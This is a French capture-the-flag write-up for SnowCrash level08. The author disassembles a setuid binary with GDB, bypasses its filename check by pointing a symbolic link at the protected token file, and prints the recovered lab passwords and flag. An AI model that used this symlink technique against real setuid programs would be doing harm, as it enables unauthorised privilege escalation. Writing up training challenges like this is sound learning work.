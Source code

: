 # 08 - Binary exploit: lien symbolique

- On se connecte en tant que level08.
```
level08@SnowCrash:~$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

```
level08@SnowCrash:~$ ./level08
./level08 [file to read]
```

```
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```


- Un binaire nous a été laissé. Regardons ça de plus près avec [GDB](https://fr.wikipedia.org/wiki/GNU_Debugger).
```
(gdb) info functions
All defined functions:

File level08.c:
int main(int, char **, char **);

Non-debugging symbols:
0x080483b4  _init
...
```

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048554 <+0>:     push   %ebp
   0x08048555 <+1>:     mov    %esp,%ebp
   0x08048557 <+3>:     and    $0xfffffff0,%esp
   0x0804855a <+6>:     sub    $0x430,%esp
   0x08048560 <+12>:    mov    0xc(%ebp),%eax
   0x08048563 <+15>:    mov    %eax,0x1c(%esp)
   0x08048567 <+19>:    mov    0x10(%ebp),%eax
   0x0804856a <+22>:    mov    %eax,0x18(%esp)
   0x0804856e <+26>:    mov    %gs:0x14,%eax
   0x08048574 <+32>:    mov    %eax,0x42c(%esp)
   0x0804857b <+39>:    xor    %eax,%eax
   0x0804857d <+41>:    cmpl   $0x1,0x8(%ebp)
   0x08048581 <+45>:    jne    0x80485a6 <main+82>
   0x08048583 <+47>:    mov    0x1c(%esp),%eax
   0x08048587 <+51>:    mov    (%eax),%edx
   0x08048589 <+53>:    mov    $0x8048780,%eax
   0x0804858e <+58>:    mov    %edx,0x4(%esp)
   0x08048592 <+62>:    mov    %eax,(%esp)
   0x08048595 <+65>:    call   0x8048420 <printf@plt>
   0x0804859a <+70>:    movl   $0x1,(%esp)
   0x080485a1 <+77>:    call   0x8048460 <exit@plt>
   0x080485a6 <+82>:    mov    0x1c(%esp),%eax
   0x080485aa <+86>:    add    $0x4,%eax
   0x080485ad <+89>:    mov    (%eax),%eax
   0x080485af <+91>:    movl   $0x8048793,0x4(%esp)
   0x080485b7 <+99>:    mov    %eax,(%esp)
   0x080485ba <+102>:   call   0x8048400 <strstr@plt>
   0x080485bf <+107>:   test   %eax,%eax
   0x080485c1 <+109>:   je     0x80485e9 <main+149>
   0x080485c3 <+111>:   mov    0x1c(%esp),%eax
   0x080485c7 <+115>:   add    $0x4,%eax
   0x080485ca <+118>:   mov    (%eax),%edx
   0x080485cc <+120>:   mov    $0x8048799,%eax
   0x080485d1 <+125>:   mov    %edx,0x4(%esp)
   0x080485d5 <+129>:   mov    %eax,(%esp)
   0x080485d8 <+132>:   call   0x8048420 <printf@plt>
   0x080485dd <+137>:   movl   $0x1,(%esp)
   0x080485e4 <+144>:   call   0x8048460 <exit@plt>
   0x080485e9 <+149>:   mov    0x1c(%esp),%eax
   0x080485ed <+153>:   add    $0x4,%eax
   0x080485f0 <+156>:   mov    (%eax),%eax
   0x080485f2 <+158>:   movl   $0x0,0x4(%esp)
   0x080485fa <+166>:   mov    %eax,(%esp)
   0x080485fd <+169>:   call   0x8048470 <open@plt>
   0x08048602 <+174>:   mov    %eax,0x24(%esp)
   0x08048606 <+178>:   cmpl   $0xffffffff,0x24(%esp)
   0x0804860b <+183>:   jne    0x804862e <main+218>
   0x0804860d <+185>:   mov    0x1c(%esp),%eax
   0x08048611 <+189>:   add    $0x4,%eax
   0x08048614 <+192>:   mov    (%eax),%eax
   0x08048616 <+194>:   mov    %eax,0x8(%esp)
   0x0804861a <+198>:   movl   $0x80487b2,0x4(%esp)
   0x08048622 <+206>:   movl   $0x1,(%esp)
   0x08048629 <+213>:   call   0x8048440 <err@plt>
   0x0804862e <+218>:   movl   $0x400,0x8(%esp)
   0x08048636 <+226>:   lea    0x2c(%esp),%eax
   0x0804863a <+230>:   mov    %eax,0x4(%esp)
   0x0804863e <+234>:   mov    0x24(%esp),%eax
   0x08048642 <+238>:   mov    %eax,(%esp)
   0x08048645 <+241>:   call   0x8048410 <read@plt>
   0x0804864a <+246>:   mov    %eax,0x28(%esp)
   0x0804864e <+250>:   cmpl   $0xffffffff,0x28(%esp)
   0x08048653 <+255>:   jne    0x8048671 <main+285>
   0x08048655 <+257>:   mov    0x24(%esp),%eax
   0x08048659 <+261>:   mov    %eax,0x8(%esp)
   0x0804865d <+265>:   movl   $0x80487c4,0x4(%esp)
   0x08048665 <+273>:   movl   $0x1,(%esp)
   0x0804866c <+280>:   call   0x8048440 <err@plt>
   0x08048671 <+285>:   mov    0x28(%esp),%eax
   0x08048675 <+289>:   mov    %eax,0x8(%esp)
   0x08048679 <+293>:   lea    0x2c(%esp),%eax
   0x0804867d <+297>:   mov    %eax,0x4(%esp)
   0x08048681 <+301>:   movl   $0x1,(%esp)
   0x08048688 <+308>:   call   0x8048490 <write@plt>
   0x0804868d <+313>:   mov    0x42c(%esp),%edx
   0x08048694 <+320>:   xor    %gs:0x14,%edx
   0x0804869b <+327>:   je     0x80486a2 <main+334>
   0x0804869d <+329>:   call   0x8048430 <__stack_chk_fail@plt>
   0x080486a2 <+334>:   leave
   0x080486a3 <+335>:   ret
End of assembler dump.
```


- On peut voir que `<strstr@plt>` est appelé pour chercher dans la chaîne de caractères contenue dans le registre `eax` la chaîne de caractères qui commence à l'adresse `0x8048793`.
```
(gdb) x/s 0x8048793
0x8048793:       "token"
```


- Ainsi, si la chaîne de caractères `token` est trouvée dans la chaîne de caractères contenue dans le registre `eax` (probablement le premier paramètre donné au programme), il `<printf@plt>` la chaîne de caractères qui commence à l'adresse `0x8048799`, puis `<exit@plt>`. Sinon, le programme appellera `<open@plt>`, suivi de `<read@plt>` et `<write@plt>`.
```
(gdb) x/s 0x8048799
0x8048799:       "You may not access '%s'\n"
```


- Donc, si le premier paramètre donné au programme contient la chaîne de caractères `token`, `You may not access 'token'` est affiché, puis on `<exit@plt>`, sinon le programme ouvre le fichier donné en paramètre, lit son contenu et l'affiche. Du coup:
```
level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/exploit
```

```
level08@SnowCrash:~$ ./level08 /tmp/exploit
quif5eloekouj29ke0vouxean
```

```
level08@SnowCrash:~$ su flag08
Password:quif5eloekouj29ke0vouxean
Don't forget to launch getflag !
```

```
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

```
flag08@SnowCrash:~$ su level09
Password:25749xKZ8L7DkSCwJkT9dyv6f
level09@SnowCrash:~$
```